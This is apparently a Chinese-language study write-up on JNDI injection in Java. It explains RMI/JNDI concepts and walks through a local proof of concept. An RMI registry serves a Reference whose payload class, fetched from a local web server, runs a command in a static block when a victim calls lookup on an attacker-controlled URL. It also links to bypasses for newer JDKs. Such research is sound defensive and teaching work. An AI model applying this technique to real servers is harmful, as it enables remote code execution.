

## JNDI注入分析

### 令人有点混乱的各种概念

开始看JRMP、RMI、JNDI有点昏，这里我的理解是JRMP是RMI调用远程类使用的通讯协议，RMI的功能主要是负责调用远程对象，JNDI可以通过指定RMI、LDAP获取资源，比如容器通过JNDI对数据库进行了配置，在代码中只需要通过JNDI拿到数据库的访问对象就可以对数据库进行操作了，不需要再在程序中配置服务器类型，账号密码等。下面这段话解释的挺好的，在一个文档里看到的。

> 在真实的项目应用中，通常是由系统程序或框加程序先将资源对象绑定到JNDI环境中，以后在该系统或框架中运行的模块程序就可以从JNDI环境中查找这些资源对象了。例如，Tomcat服务器在启动时可以创建一个连接到某种数据库系统的数据源（DataSource）对象，并将该数据源（DataSource）对象绑定到JNDI环境中，以后在这个Tomcat服务器中运行的Servlet和JSP程序就可以从JNDI环境中查询出这个数据源（DataSource）对象进行使用，而不用关心数据源（DataSource）对象是如何创建出来的，这种方式极大地增强了系统的可维护性，当数据库系统的连接参数发生变更时，这只是Tomcat系统管理员一个人要关心的事情，而与所有的应用程序开发人员无关。

### JNDI注入分析

环境：Java 1.7.0_05 
高版本对RMI加载做了限制会导致以下错误
```
The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'
```

简单实现一个JNDI和RMIRegistry会发现，客户端使用JNDI的lookup后，程序是在自己的服务器上执行之后结果返回给客户端服务器，而不是类在客户端服务器上实例化然后执行，这样我们构造恶意类绑定到RMIRegistry上是没有用的，恶意类会在我们自己的服务器上实例化。但是JNDI在处理Reference对象时不同

是先通过远程地址下载到class文件，然后对类进行实例化，此时的实例化是发生在客户端的，所以可以通过让目标向我们的RMIRegistry发送请求，然后返回一个Reference类指定恶意代码的位置，然后客户端下载并执行恶意代码。

按照网上的例子，为RMIRegistry绑定一个ReferenceWrapper对象

```java
Reference reference = new Reference("PayloadClass","PayloadClass","http://127.0.0.1:8081/");
ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
registry.rebind("referenceTest",referenceWrapper);
```

PayloadClass.java的代码

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;

public class PayloadClass implements ObjectFactory {
    static {
        try {
            Runtime.getRuntime().exec("open /Applications/Calculator.app");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

其他的代码就不贴在这里了，可以看直接看测试的代码

启动RMIRegistry后会target目录下生成PayloadClass.class文件，这个文件需要从target挪走，因为客户端和服务端都是在本地做测试，JNDI在加载过程中会先读本地看是否有这个class，没有才会走我们设置的rmi，随便启动一个webserver，可以通过url访问到PayloadClass.class，这里就用python简单起一个，通过http://127.0.0.1:8081/PayloadClass.class 就可以访问到。

如下代码使用JNDI查找刚才构造的Reference对象，关键的代码只有最后一句（这里的10.10.37.77和127.0.0.1是一样的都是本地地址）

```java
Properties env = new Properties();
env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL, "rmi://localhost:1099");
Context ctx = new InitialContext(env);
//RMIServiceInterface RMIObject = (RMIServiceInterface) ctx.lookup("rmi://10.10.37.77:1099/getRandom");
//System.out.println(RMIObject.getRandomNumber());

RMIServiceInterface referenceTestObject = (RMIServiceInterface) ctx.lookup("rmi://10.10.37.77:1099/referenceTest");
```


虽然在lookup之前已经设置了rmi地址这些，但是在lookup方法的参数中可以指定带有scheme的参数来进行动态设置。

在执行到`RegistryContext`类的`lookup`方法时，此时的Registry已经是后边参数中的rmi://10.10.37.77:1099/了，晕了可以看下测试代码中RMI相关的测试代码。


程序在`NamingManager`类的`getObjectFactoryFromReference`方法中本地没有找到指定的ClassFactory就会去Reference对象指定的远程地址获取


获取到远程class之后，使用`Class.forName`对类进行了实例化，导致命令执行


### 总结

JNDI注入的大致流程：

控制被攻击服务器作为客户端向攻击者的RMIRegistry（以RMI为例，实际具体用哪个要看JDK版本啥的了）发起请求，RMIRegistry返回一个Reference对象，服务器处理Reference对象过程，从Reference指定的地址获取恶意类进行实例化。

如果想找到一个JNDI注入，就需要找到参数用户可控的lookup方法，实际利用时高版本的JDK做了不少限制。

大佬的绕过姿势见链接

https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html

